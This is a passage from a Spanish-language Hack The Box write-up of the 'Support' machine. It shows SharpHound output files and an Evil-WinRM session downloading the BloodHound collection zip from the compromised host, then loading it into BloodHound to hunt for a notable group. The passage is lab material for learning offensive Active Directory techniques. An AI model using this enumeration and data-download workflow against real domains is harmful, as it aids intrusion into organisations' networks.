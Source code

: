 ```batch
-a----         9/28/2024   8:28 PM        1052160 SharpHound.exe
-a----         9/28/2024   8:30 PM          10176 YzgyNDA2MjMtMDk1ZC00MGYxLTk3ZjUtMmYzM2MzYzVlOWFi.bin
```

Bien, esto nos generó un archivo comprimido, vamos a descargarlo y lo vamos a cargar en **BloodHound**:
```batch
*Evil-WinRM* PS C:\Users\support\Documents> download 20240928203022_BloodHound.zip BloodH.zip
Info: Downloading C:\Users\support\Documents\20240928203022_BloodHound.zip to BloodH.zip
Info: Download successful!
```

<p align="center">
<img src="/assets/images/htb-writeup-support/Captura17.png">
</p>

De aquí podemos sacar un montón de información que nos puede ayudar, pero recordemos que hay un grupo que nos pareció curioso, vamos a buscarlo con **BloodHound**:

<p align="center">